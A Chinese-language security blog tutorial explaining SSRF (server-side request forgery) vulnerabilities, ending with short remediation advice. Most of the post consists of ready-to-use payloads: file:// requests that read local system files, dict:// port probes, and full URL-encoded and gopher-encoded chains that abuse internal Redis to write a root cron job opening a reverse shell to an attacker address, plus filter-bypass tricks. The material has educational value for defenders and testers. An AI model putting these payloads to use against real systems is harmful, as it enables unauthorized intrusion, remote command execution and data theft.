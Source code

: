 #  一文读懂SSRF漏洞   
simple学安全  simple学安全   2024-11-20 10:56  
  
目录  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icjPTM4gYeU9QD61S9PKSqEcjVjSNztKz5ulJQIic4ickzQM8DBLKpwsVfibrbZQ1vhyCIs7yAB7CCiaRhzxg03QccQ/640?wx_fmt=png&from=appmsg "")  
  
简介  
  
SSRF全称服务器端请求伪造，是一种由攻击者构造请求，由服务器端发起请求的漏洞，正由于这一点，SSRF攻击的目标是外网无法访问的内网系统。  
  
漏洞出现的原因是web应用程序提供了从其他服务器应用获取数据的功能，却没有对目标地址做过滤和限制。导致存在漏洞的应用成为攻击者的跳板机。  
  
漏洞利用  
  
1、**读取服务器本地文件**  
  
利用  
file协议  
可以读取本地文件：  
```
Windows：
file://127.0.0.1/c:/      访问本地C盘
file://localhost/d:/      访问本地D盘
file:///e:/                访问本地E盘

Linux：
file:///etc/hosts
```  
  
现有 http://192.168.1.128/ssrf.php?url= 存在SSRF漏洞，可利用file协议读取本地文件：  
```
?url=file:///c:/windows/win.ini
?url=file://127.0.0.1/c:/windows/win.ini
?url=file://localhost/c:/windows/win.ini
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icjPTM4gYeU9QD61S9PKSqEcjVjSNztKzYu8lW8iaibVHX2jwrpUT3PshdcSTfqfiaoBSQFc0JUalB8YsW6pg7BflA/640?wx_fmt=png&from=appmsg "")  
  
2、**收集内网信息**  
  
方法一：直接将参数值设置为内网地址，附带端口号，判断内网主机端口开放情况，这里探测到服务器开放3306端口  
```
?url=127.0.0.1:3306
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icjPTM4gYeU9QD61S9PKSqEcjVjSNztKzMwh3es6q69gyyHQzXru3PmhM3Bmwklib5PicEAlhLjnibnSCmcVkpbbgw/640?wx_fmt=png&from=appmsg "")  
  
方法二：利用  
dict协议  
探测端口，dict协议格式如下：  
```
dict://ip:port/命令:参数
```  
  
其中命令和参数不是必须的。  
  
使用dict协议探测到服务器开放3306端口：  
```
?url=dict://127.0.0.1:3306/
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icjPTM4gYeU9QD61S9PKSqEcjVjSNztKzMB6ERHUzoWGkXZLTuyFyjnbXxp3tyt7ex1nCicf86QJuJ8iak7zxg3zg/640?wx_fmt=png&from=appmsg "")  
  
  
3、**攻击内网redis**  
  
ssrf漏洞常用于攻击内网redis服务，可先使用file协议读取服务器的网络配置文件，获得内网ip以及子网掩码，随后使用收集内网信息的方法探测内网的redis服务，常用端口6379。这里探测到172.19.0.2存在redis服务  
  
方法一：利用http协议  
  
1）redis是通过换行符区分每条命令的，可以使用%0d%0a代表换行符，达到一次传入多条命令的目的，利用redis写计划任务反弹shell：  
```
set 1 "\n\n\n\n0-59 0-23 1-31 1-12 0-6 root bash -c 'sh -i >& /dev/tcp/192.168.11.132/4444 0>&1'\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```  
  
2）特殊字符进行url编码，换行符使用%0d%0a：  
```
set%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20'sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.11.132%2F4444%200%3E%261'%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave
```  
  
3）拼接前还需要在前后加上一些字符表示开始和结束：  
```
开头：start%0d%0a%0d%0a
结尾：%0d%0a%0d%0aend

其中start和end可以是任何字符串，没有要求
```  
  
4）得到最终payload  
```
start%0d%0a%0d%0aset%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20'sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.11.132%2F4444%200%3E%261'%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0d%0a%0d%0aend
```  
  
5）发送攻击请求包，成功反弹shell  
```
?url=http://172.19.0.2:6379/start%0d%0a%0d%0aset%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20'sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.11.132%2F4444%200%3E%261'%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0d%0a%0d%0aend
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icjPTM4gYeU9QD61S9PKSqEcjVjSNztKzGzJOQApw2SeNib48xEM7SHCazv1rLVficvZ57ZlqfdHv0AQOSFT4Zpibw/640?wx_fmt=png&from=appmsg "")  
  
方法二：利用  
gopher协议  
攻击内网redis，gopher协议可以构造任意的tcp/ip数据包，格式如下：  
```
gopher://ip:port/_数据
```  
  
1）可用如下工具生成反弹shell的payload：  
  
https://github.com/tarunkant/Gopherus  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icjPTM4gYeU9QD61S9PKSqEcjVjSNztKzgaLoA92cae4Aiadm3enH3er0wlOlN9yvMaC4mBcAibCgE7CofISlKdvg/640?wx_fmt=png&from=appmsg "")  
  
其中127.0.0.1:6379要换成实际的存在redis服务的地址。  
  
2）由于服务端接受数据后会自动进行一次url解码，为了保持结构完整，需要对gopher协议的数据再进行一次url编码  
```
gopher://192.168.11.132:6379/_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252469%250D%250A%250A%250A%252A%2F1%2520%252A%2520%252A%2520%252A%2520%252A%2520bash%2520-c%2520%2522sh%2520-i%2520%253E%2526%2520%2Fdev%2Ftcp%2F192.168.11.132%2F1234%25200%253E%25261%2522%250A%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252415%250D%250A%2Fvar%2Fspool%2Fcron%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25244%250D%250Aroot%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A%250A
```  
  
3）最后作为参数发送请求包  
```
?url=gopher://192.168.11.132:6379/_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252469%250D%250A%250A%250A%252A%2F1%2520%252A%2520%252A%2520%252A%2520%252A%2520bash%2520-c%2520%2522sh%2520-i%2520%253E%2526%2520%2Fdev%2Ftcp%2F192.168.11.132%2F1234%25200%253E%25261%2522%250A%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252415%250D%250A%2Fvar%2Fspool%2Fcron%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25244%250D%250Aroot%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A%250A
```  
  
绕过技巧  
  
1、**本地回环地址**  
  
将本地回环地址http://127.0.0.1/改为http://127.1/  
  
2、**双重URL编码混淆**  
  
对请求的url进行双重url编码，例如http://127.1/admin改为http://127.1/%2561dmin，对a进行了双重url编码。  
  
3、**"@"符号绕过**  
  
该绕过的原理是http://  
127  
.0.0.1  
/a  
dmin与http://xxx.com@127.0.0.1/admin  
这两个请求是  
一样的  
，  
也就是说  
对于限制了域名的网站，可以通过这种方法实现绕过  
  
修复建议  
  
1、限制请求的端口只能为web端口，例如80、8080  
  
2、只允许发起http和https的请求  
  
3、采用白名单的方式限制访问的目标地址，禁止访问内网ip  
  
4、屏蔽返回的详细信息  
  
END  
  
**查看更多精彩内容，关注**  
**simple学安全**  
  
  
